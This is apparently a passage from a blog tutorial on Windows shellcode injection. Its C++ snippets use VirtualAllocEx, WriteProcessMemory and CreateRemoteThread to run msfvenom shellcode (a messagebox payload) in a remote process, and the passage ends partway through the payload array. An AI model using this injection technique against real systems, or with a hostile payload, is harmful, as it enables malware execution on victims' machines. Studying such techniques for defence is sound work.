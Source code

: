 The function takes four parameters:

- **dwProcessID:** This is the PID returned when  we called `GetRemoteProcessID`.
- **lpBuffer:** A pointer to a memory buffer where shellcode will be written.
- **hProcessHandle:** A handle that will store the target process.
- **cbSize:** A reference to the size of shellcode in bytes.

Within `MemoryAllocation`, we perform several checks and handle exceptions using a `try-catch` block, ensuring proper resource cleanup.

- **penProcess:** It is used to get a handle of a local process.
- **VirtualAllocEx:** This is akin to `VirtualAlloc`, but with enhanced capabilities, as it allows for the allocation of virtual memory in remote processes. This makes it a more powerful function. In this case, we'll allocate memory with read, write, and execute permissions (RWX).
- **WriteProcessMemory:** We use it to copy and inject arbitrary code (shellcode) into the allocated memory region.

#### **Calling a thread and executing shellcode:** ####

The final two stages of the execution flow consist of calling the `CreateRemoteThread` function and executing the shellcode within a newly spawned thread, utilizing `WaitForSingleObject` to ensure proper synchronization.


{% highlight CPP %}
 if(hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpBuffer, nullptr, 0, &dwThreadID))
        {
            std::cout << "[+] Create remote thread in target process: 0x" << hThread << " PID: " << dwThreadID << std::endl;
            WaitForSingleObject(hThread, 500); // Execute shellcode
            CloseHandle(hThread);
        }
{% endhighlight %}

## **Final code:**

{% highlight CPP %}
#include <Windows.h>
#include <tlhelp32.h>
#include <iostream>

//msfvenom -p windows/x64/messagebox TEXT="System_0x04" TITLE='Crate Thread!' -f c 
unsigned char payload[] = {
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x3e\x48"
    "\x8d\x8d\x29\x01\x00\x00\x41\xba\x4c\x77\x26\x07\xff\xd5"
    "\x49\xc7\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x0e\x01\x00"
    "\x00\x3e\x4c\x8d\x85\x1a\x01\x00\x00\x48\x31\xc9\x41\xba"
    "\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2"
    "\x56\xff\xd5\x53\x79\x73\x74\x65\x6d\x5f\x30\x78\x30\x34"
    "\x00\x43\x72\x65\x61\x74\x65\x20\x54\x68\x72\x65\x61\x64"
    "\x21\x00\x75\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00"